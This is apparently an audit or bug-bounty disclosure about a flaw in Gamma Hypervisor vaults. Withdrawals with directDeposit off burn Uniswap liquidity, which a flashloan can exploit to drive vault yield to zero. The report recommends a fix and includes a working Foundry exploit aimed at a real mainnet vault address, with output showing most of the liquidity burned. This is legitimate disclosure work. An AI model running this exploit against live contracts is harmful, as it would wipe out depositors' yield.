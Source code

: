 # Majority of liquidity can be burnt from Uniswap pool back to Hypervisor vault by flashloan. APY for Hypervisor vault will become zero.

## Summary
It affects any pools where `directDeposit` is set to `false`.

If `directDeposit` is false, `Hypervisor.deposit()` will not add liquidity immediately, but `Hypervisor.withdraw()` will remove liquidity immediately pro-rata basis for shareholders.

https://github.com/GammaStrategies/hypervisor/blob/master/contracts/Hypervisor.sol#L140-L160
```solidity
    if (total != 0) {
        uint256 pool0PricedInToken1 = pool0.mul(price).div(PRECISION);
        shares = shares.mul(total).div(pool0PricedInToken1.add(pool1));
        if (directDeposit) {
        uint128 liquidity = _liquidityForAmounts(
            baseLower,
            baseUpper, 
            token0.balanceOf(address(this)),
            token1.balanceOf(address(this))
        );
        _mintLiquidity(baseLower, baseUpper, liquidity, address(this), inMin[0], inMin[1]);
        liquidity = _liquidityForAmounts(
            limitLower,
            limitUpper, 
            token0.balanceOf(address(this)),
            token1.balanceOf(address(this))
        );
        _mintLiquidity(limitLower, limitUpper, liquidity, address(this), inMin[2], inMin[3]);
        }
    }
    _mint(to, shares);

```

https://github.com/GammaStrategies/hypervisor/blob/master/contracts/Hypervisor.sol#L230-L247
```solidity
        (uint256 base0, uint256 base1) = _burnLiquidity(
            baseLower,
            baseUpper,
            _liquidityForShares(baseLower, baseUpper, shares),
            to,
            false,
            minAmounts[0],
            minAmounts[1]
        );
        (uint256 limit0, uint256 limit1) = _burnLiquidity(
            limitLower,
            limitUpper,
            _liquidityForShares(limitLower, limitUpper, shares),
            to,
            false,
            minAmounts[2],
            minAmounts[3]
        );

```

So, immediate withdrawal after deposit will cause Uniswap pool to be burnt back to vault.

Here's USDC-WETH pool(https://etherscan.io/address/0xA9782a2C9C3Fb83937f14cDfAc9a6d23946C9255) where `directDeposit` is set to `false`.

Current `maxDeposit` cap for vault is 
- 200k USDC
- 110 WETH

Current `Uniswap pool liquidity` is 
- 73k USDC
- 41 WETH

A hacker can burn up to around 73%(`200 / (73 + 200) = 0.73`) of liquidity at once by depositing and withdrawing immediately.

It can be repeated for any number of times to burn almost all of liquidity.

## Use of zero-fee Balancer flashloan for backrunning rebalance operation
Just after `Hypervisor.rebalance()` is called, fee amount owned by the Uniswap LP position is zero.

A hacker you can withdraw exactly same amount deposited immediately by backrunning `Hypervisor.rebalance()`.

Zero-fee Balancer flashloan can be performed repeatedly to burn majority of Uniswap pool.

## Impact
APR of Hypervisor vault will be zero with minimal cost.

Permeanent loss of yield.

## Recommendation

`Hypervisor.withdraw()` should return idle funds sitting at Hypervisor vault first.

If that's not enough, then it should burn liquidity from Uniswap pool.

## Proof of Concept

```solidity
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/interfaces/interface.sol";
import "../src/interfaces/IHypervisor.sol";
import "../src/interfaces/IUniProxy.sol";

CheatCodes constant     cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);
IBalancerVault constant balancer = IBalancerVault(0xBA12222222228d8Ba445958a75a0704d566BF2C8);
IUniProxy constant      proxy = IUniProxy(0x83dE646A7125aC04950FEA7e322481D4BE66c71d);
IHypervisor constant    vault = IHypervisor(0xA9782a2C9C3Fb83937f14cDfAc9a6d23946C9255);

contract HyperLauncherTest is Test {
    function setUp() public {
        cheats.createSelectFork("mainnet", 17877877);

        cheats.label(address(proxy),    "Proxy");
        cheats.label(address(balancer), "Balancer");
        cheats.label(address(vault), "Vault");

        uint256[4] memory minIn;
        uint256[4] memory outMin;

        // backrunning of rebalance
        cheats.startPrank(vault.owner());
        vault.rebalance(
            vault.baseLower(),
            vault.baseUpper(),
            vault.limitLower(),
            vault.limitUpper(),
            vault.owner(),
            minIn, outMin);
        cheats.stopPrank();
    }

    function testExploit() public {
        address[] memory tokens = new address[](2);
        uint256[] memory amounts = new uint256[](2);

        tokens[0] = vault.token0();
        tokens[1] = vault.token1();

        // for (uint256 i = 0; i < 4; i++)
        {
            (uint256 total0, uint256 total1) = vault.getTotalAmounts();
            (, , , , , uint256 deposit0Max, uint256 deposit1Max, ,) = proxy.positions(address(vault));

            if (deposit0Max * total1 > deposit1Max * total0)
            {
                amounts[0] = deposit1Max * total0 / total1;
                amounts[1] = deposit1Max;
            }
            else
            {
                amounts[0] = deposit0Max;
                amounts[1] = deposit0Max * total1 / total0;
            }

            balancer.flashLoan(address(this), tokens, amounts, bytes(""));

        }
    }

    function receiveFlashLoan(
        address[] memory tokens,
        uint256[] memory amounts,
        uint256[] memory feeAmounts,
        bytes memory userData
    ) external {
        require(msg.sender == address(balancer));
        uint256[4] memory   minIn;
        uint256     base0;
        uint256     base1;
        uint256     limit0;
        uint256     limit1;
        
        IERC20(tokens[0]).approve(address(vault), amounts[0]);
        IERC20(tokens[1]).approve(address(vault), amounts[1]);

        (, base0, base1)= vault.getBasePosition();
        (, limit0, limit1)= vault.getLimitPosition();

        emit log_named_decimal_uint("USDC liquidity before - ", base0 + limit0, 6);
        emit log_named_decimal_uint("WETH liquidity before - ", base1 + limit1, 18);
        emit log_named_decimal_uint("USDC flashloan - ", amounts[0], 6);
        emit log_named_decimal_uint("WETH flashloan - ", amounts[1], 18);

        uint256 shares = proxy.deposit(amounts[0], amounts[1], address(this), address(vault), minIn);
        vault.withdraw(shares, address(this), address(this), minIn);

        (, base0, base1)= vault.getBasePosition();
        (, limit0, limit1)= vault.getLimitPosition();

        emit log_named_decimal_uint("USDC liquidity after - ", base0 + limit0, 6);
        emit log_named_decimal_uint("WETH liquidity after - ", base1 + limit1, 18);

        IERC20(tokens[0]).transfer(address(balancer), amounts[0]);
        IERC20(tokens[1]).transfer(address(balancer), amounts[1]);
    }
}

```

Output
```
  USDC liquidity before - : 73261.863923
  WETH liquidity before - : 41.136117792886310572
  USDC flashloan - : 197372.597954
  WETH flashloan - : 110.823585475460887590
  USDC liquidity after - : 19832.288424
  WETH liquidity after - : 11.135716579314727895
```
